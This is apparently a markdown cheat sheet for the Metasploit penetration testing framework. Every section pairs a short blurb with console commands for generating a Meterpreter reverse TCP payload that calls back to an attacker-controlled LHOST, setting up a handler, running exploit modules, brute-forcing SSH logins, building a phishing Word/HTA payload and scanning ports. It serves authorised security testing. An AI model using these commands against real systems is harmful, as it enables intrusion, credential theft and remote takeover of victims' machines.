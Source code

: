 # `Metasploit`

Metasploit is an open-source penetration testing framework that provides a platform for developing, testing, and executing exploit code against a remote target


### Set up a reverse TCP shell on a Windows MS-SQL server

### In MSFVenom, create a payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip} -f exe -o payload.exe

### In MSF6, use Metasploit
use exploit/multi/handler
set payload /windows/meterpreter/reverse_tcp
setg LHOST {ip}
run

### Exploiting Known Vulnerabilities
Metasploit can be used to exploit known vulnerabilities in target systems. For example, if a target system is known to be vulnerable to a specific exploit, security professionals can use the corresponding Metasploit module to assess and demonstrate the impact.

msfconsole
use exploit/<exploit_module>
set RHOSTS <target_ip>
exploit

### Password Attacks
Metasploit includes modules for password attacks, such as brute-force attacks and credential spraying. These modules can be used to test the strength of passwords on target systems.

msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target_ip>
set USER_FILE <user_list>
set PASS_FILE <password_list>
run

### Phishing Campaigns
Metasploit can be used to simulate phishing attacks by creating malicious payloads embedded in emails or websites. This helps organizations assess their susceptibility to social engineering.

msfconsole
use exploit/windows/fileformat/office_word_hta
set PAYLOAD <payload_type>
set LHOST <attacker_ip>
exploit

### Post-Exploitation Activities
After successfully compromising a target, Metasploit's Meterpreter payload can be used for various post-exploitation activities, including file manipulation, privilege escalation, and lateral movement.

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
exploit

### Network Scanning and Enumeration
Metasploit includes modules for network scanning and enumeration, allowing security professionals to gather information about target networks and systems.

msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip_range>
run

### Payload Generation
Metasploit can generate custom payloads for various platforms and scenarios. This is useful for creating specific executable files or scripts tailored to the target environment.

msfvenom -p <payload_type> LHOST=<attacker_ip> LPORT=<attacker_port> -f <output_format> > output_file

